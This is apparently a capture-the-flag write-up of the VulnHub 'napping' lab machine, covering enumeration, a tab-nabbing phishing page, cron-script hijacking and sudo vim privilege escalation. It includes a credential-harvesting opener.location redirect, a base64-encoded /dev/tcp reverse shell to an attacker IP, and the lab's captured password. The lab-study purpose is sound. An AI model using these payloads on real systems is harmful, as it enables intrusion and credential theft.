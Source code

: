 ```yaml
---
title: "napping 1.0.1 vulnhub writeup"
header:
  teaser: "/assets/images/napping/napping.jpg"
tags: ["Vulnhub", "tab-nabbing", "phishing", "vim"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-06-27T00:45:19+02:00
toc: true
draft: false
---
```


In This VulnHub Box, we are facing a relatively an interesting vulnerability which is tab-nabbing that will help us phish the admin to get his credentials which we can use to ssh into the Box , From There we can get a reverse shell from adrian user as he is running a cron job which is a python script and we can write into it because we are in the administrators group. and for the root part we have sudo privilege on vim editor.

you can download the machine from [here](https://www.vulnhub.com/entry/napping-101,752/) we have the description :

_Even Admins can fall asleep on the job_

it indicates that some admin will make a mistake or something but let's Jump in and see ourselves.

<!--more-->

First we need to get the IP of the target machine with :

```bash
sudo netdiscover
```

and I have got the IP address : `192.168.1.12` Let's start our process :

## Scanning

```bash
nmap -A -T4 192.168.1.12 -oN nmap.inital
```

results :

```cmd
Host is up (0.0062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c4:fc:dc:4b:f4:31:a0:ad:0d:20:61:fd:ca:ab:79 (RSA)
|   256 6f:31:b3:e7:7b:aa:22:a2:a7:80:ef:6d:d2:87:6c:be (ECDSA)
|_  256 af:01:85:cf:dd:43:e9:8d:32:50:83:b2:41:ec:1d:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

From the results we know the following :

- the target machine is Ubuntu
- the Apache version running 2.4.41
- httponly flag not set which can lead to XSS (cross site scripting)
- we will get a login page when we visit the page

Also we can do a full port scanning But with no more results

## Enumeration

Before hopping into the website let's do some basics enumeration from the terminal

#### Directory Busting :

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt  -u http://192.168.1.12/FUZZ -o files-medium.txt -fc 403
```

Output :

```cmd
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
index.php               [Status: 200, Size: 1219, Words: 334, Lines: 38]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
welcome.php             [Status: 302, Size: 0, Words: 1, Lines: 1]
register.php            [Status: 200, Size: 1566, Words: 434, Lines: 42]
reset-password.php      [Status: 302, Size: 0, Words: 1, Lines: 1]
```

visiting the web page we got a login :

![error](/assets/images/napping/20220627113927.png)

Trying some basic SQLi statements But no bypasses. so Let's create an account and see what is going on .

After logging in we will be redirected to **/welcome.php** which we have found earlier

![error](/assets/images/napping/20220627120228.png)

we can try to go to the **/reset-password.php** maybe we can change the ID or the username if it was being sent with the request to admin and reset his password. But unfortunately we can't :

![error](/assets/images/napping/20220627120508.png)

we can see the Enter URL and the admin will check. i have tried some wrappers (file:// and php://) But no results , However with being said admin will review it this should trigger your XSS sense.

I made an empty html file and host it , then submit the link of my URL and wait to see what will happen and Look :

![error](/assets/images/napping/20220627124018.png)

It seems after 2 minutes of submission the url the admin will indeed review it , so we can try to steal any useful data

However i tried a lot but no thing is getting back.

![x](https://media.giphy.com/assets/images/GlqUe0PhpAHCg/giphy.gif)

Let's check the Page source code , we can see this weird target value `_blank`

![error](/assets/images/napping/20220627130623.png)

Searching for it found it is actually a [vulnerability](https://www.jitbit.com/alexblog/256-targetblank---the-most-underestimated-vulnerability-ever/) can open phishing scenarios , and we know the admin will visit this fake page , also from description we know even admin may made mistake so let's clone the login page (copy html code) our hope is the admin to submit his username and password

## Foothold

Following the Article steps :

1- clone the Login page source code

2- add the following in the source code which the data will be redirected to

```html
<script>
  window.opener.location = "http://192.168.1.11:9090";
</script>
```

_note: add other port rather than the http port because it is a POST request so the data submitted will not appear at the uri in the http server_

3- Host the page and submit the URL

and after 2 minutes we got the Juicy stuff :

![error](/assets/images/napping/20220627134313.png)

now we have this credentials after URL decoding
`daniel:C@ughtm3napping123`

Trying these credentials in the web page we got invalid login , trying them with the **ssh** port we have found earlier we are in finally

![error](/assets/images/napping/20220627134759.png)

## Lateral movement

First thing that have my attention is the **administrators** group , so let's check what is interesting about this group

```bash
daniel@napping:~$ find / -group administrators  2>/dev/null
/home/adrian/query.py
daniel@napping:~$ ls -l /home/adrian/query.py
-rw-rw-r-- 1 adrian administrators 481 Oct 30  2021 /home/adrian/query.py
```

nice we have write access to that folder , we can edit it but then what ? , we need also user adrian to execute it and there should be some crontab running to achieve that.

However there is no crontabs under the `/etc/crontab` , there are other cornjobs that are under `/var/spool/cron` and normally only the user who owns it will be able to access it.

we can upload [pspy](https://github.com/DominicBreuker/pspy) and monitor the processes running and check for such a cron job

![error](/assets/images/napping/20220627141335.png)

and guess who is the User whose id is 1000 ?

```bash
daniel@napping:/tmp$ cat /etc/passwd | grep adrian
adrian:x:1000:1000:adrian:/home/adrian:/bin/bash
```

so we can simply add our malicious piece of code in the script running by adrian and we will get a reverse shell :

```bash
import os
os.system("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExLzg4ODggMD4mMQ== | base64 -d | bash")
```

_note we need to base64 encode the reverse shell payload as it contains some special characters will disturb the execution_

![error](/assets/images/napping/20220627142623.png)

## root Access

and the root part is really easy :

![error](/assets/images/napping/20220627142726.png)

```bash
sudo /usr/bin/vim
# press ESC then
```

![error](/assets/images/napping/20220627142856.png)

And the machine has been pwned ;)

![error](/assets/images/napping/20220627142914.png)

## After root

Under ` /var/spool/cron/crontabs/adrian` we can see

```bash
*/2 * * * * /usr/bin/python3 /home/adrian/query.py
```

and under ` /var/spool/cron/crontabs/root`

```bash
*/2 * * * * /usr/bin/python3 /root/nap.py
```

The script was checking for the opener.location in the page the admin visit and if present it will submit the data

```python
data = {
        "username":"daniel",
        "password":"C@ughtm3napping123"
        }

    elif (search.find('opener.location') != -1):
        match = re.findall("http(.*);",search)
        new_url = 'http' + match[0].rstrip(match[0][-1])
        r2 = requests.post(new_url,data=data,timeout=2)
```

